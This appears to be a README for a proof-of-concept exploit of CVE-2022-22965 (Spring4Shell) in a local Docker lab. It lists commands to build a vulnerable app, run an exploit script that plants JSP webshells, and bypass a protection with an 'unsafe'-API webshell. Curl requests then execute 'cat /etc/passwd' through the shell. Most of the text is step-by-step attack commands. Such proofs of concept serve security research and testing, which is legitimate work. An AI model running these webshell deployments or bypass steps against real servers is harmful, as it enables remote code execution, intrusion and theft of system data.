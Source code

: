 1. mvn clean package
2. docker build . -t cve-2022-22965-exploit-bypass-using-unsafe
4. docker run -p 8080:8080 -t cve-2022-22965-exploit-bypass-using-unsafe
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt
7. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="reflection"
8. curl "http://localhost:8080/reflection.jsp?cmd=cat%20/etc/passwd" and see that we are blocked
  ![block.png](block.png)
9. Now deploy another webshell that uses unsafe API and escape constructor check;
   `   python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="unsafe"
   `
10. curl "http://localhost:8080/unsafe.jsp?cmd=cat%20/etc/passwd" and enjoy the bypass
   ![bypass.png](bypass.png)